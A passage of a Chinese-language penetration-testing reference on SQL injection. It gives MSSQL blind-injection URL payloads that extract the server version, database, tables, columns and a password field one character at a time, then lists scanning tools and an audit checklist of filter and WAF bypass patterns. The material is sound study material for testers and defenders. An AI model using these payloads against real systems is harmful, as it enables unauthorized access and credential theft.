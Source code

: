 MSSQL

```
PS：回显型请查阅参考资料的链接，这里主要盲注的语法。

#爆数据库版本（可先测长度）

aspx?c=c1'/**/and/**/ascii(substring(@@version,1,1))=67/**/--&t=0

ps:在范围界定时，可利用二分查找结合大于小于来利用；亦可直接赋值脚本爆破，依次类推直至最后一字母。

#爆当前数据库名字

aspx?c=c1'/**/and/**/ascii(substring(db_name(),1,1))>200/**/--&t=0

#爆表

aspx?c=c1'/**/and/**/ascii(substring((select/**/top/**/1 name/**/from/**/dbname.sys.all_objects where type='U'/**/AND/**/is_ms_shipped=0),1,1))>0/**/--&t=0

#爆user表内字段

aspx?c=c1'/**/and/**/ascii(substring((select/**/top/**/ 1/**/COLUMN_NAME from/**/dbname.information_schema.columns/**/where/** /TABLE_NAME='user'),1,1))>0/**/--&t=0

#爆数据

aspx?c=c1'/**/and/**/ascii(substring((select/**/top/**/1/**/fPwd/**/from/**/User),1,1))>0/**/--&t=0

PS:关于注入绕过（bypass），内容偏多、过细，本次暂不归纳。单独一篇
```

##5   漏洞挖掘
###5.1  黑盒测试
套装组合

AWVS类 + sqlmap （手工）

Burp + sqlmapAPI（手工）
 
减少体力活的工程化

Sqli-hunter

GourdScan

###5.2  代码审计
白盒的方式有两种流，一种是检查所有输入，另一种是根据危险函数反向查找注入引发的特征点及敏感函数。

NO|概要
|--
1|$_SERVER未转义
2|更新时未重构更新序列
3|使用了一个未定义的常量
4|PHP自编标签与strip_tags顺序逻辑绕过
5|可控变量进入双引号
6|宽字节转编码过程
7|mysql多表查询绕过
8|别名as+反引号可闭合其后语句
9|mysql的类型强制转换
10|过滤条件是否有if判断进入
11|全局过滤存在白名单
12|字符串截断函数获取定长数据
13|括号包裹绕过
14|弱类型验证机制
15|WAF或者过滤了and&#x7c;or的情况可以使用&&与&#x7c;&#x7c;进行盲注
16|windows下php中访问文件名使用`<` `>`将会被替换成`*` `?`
17|二次urldecode注入
18|逻辑引用二次注入